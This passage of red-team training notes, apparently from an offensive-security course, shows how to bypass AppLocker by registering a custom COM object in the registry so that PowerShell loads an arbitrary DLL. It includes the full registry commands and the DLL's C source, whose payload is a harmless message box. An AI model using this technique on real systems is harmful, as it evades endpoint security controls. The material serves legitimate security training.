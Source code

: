 These restrictions are not water-tight however.  For instance, we can still use the [New-Object](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-5.1) cmdlet to load COM objects such as [WScript.Shell](https://ss64.com/vb/shell.html).

```powershell
PS C:\Users\pchilds> New-Object -ComObject WScript.Shell

SpecialFolders     CurrentDirectory
--------------     ----------------
System.__ComObject C:\Users\pchilds
```

This can be abused by creating a custom COM object that will load an arbitrary DLL into the PowerShell process.  This is a similar process to when we added registry entries for [COM hijacking](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=677d4c2e7f9cb5050301a3be).

```powershell
PS C:\Users\pchilds> [System.Guid]::NewGuid()

Guid
----
6136e053-47cb-4fdd-84b1-381bc5f3edb3

C:\Users\pchilds> New-Item -Path 'HKCU:Software\Classes\CLSID' -Name '{6136e053-47cb-4fdd-84b1-381bc5f3edb3}'

C:\Users\pchilds> New-Item -Path 'HKCU:Software\Classes\CLSID\{6136e053-47cb-4fdd-84b1-381bc5f3edb3}' -Name 'InprocServer32' -Value 'C:\Users\pchilds\Desktop\bypass.dll'

C:\Users\pchilds> New-ItemProperty -Path 'HKCU:Software\Classes\CLSID\{6136e053-47cb-4fdd-84b1-381bc5f3edb3}\InprocServer32' -Name 'ThreadingModel' -Value 'Both'

C:\Users\pchilds> New-Item -Path 'HKCU:Software\Classes' -Name 'AppLocker.Bypass' -Value 'AppLocker Bypass'

C:\Users\pchilds> New-Item -Path 'HKCU:Software\Classes\AppLocker.Bypass' -Name 'CLSID' -Value '{6136e053-47cb-4fdd-84b1-381bc5f3edb3}'
```

![[Pasted image 20250729093747.png]]

The source code for this DLL is simply:

```c
#include <windows.h>
#include <stdio.h>

extern "C" __declspec(dllexport) BOOL execute() {
	MessageBox(NULL, L"Hello World", L"AppLocker Bypass", 0);
	return TRUE;
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
		return execute();
	case DLL_PROCESS_DETACH:
		break;
	case DLL_THREAD_ATTACH:
		break;
	case DLL_THREAD_DETACH:
		break;
	}
	return TRUE;
}
```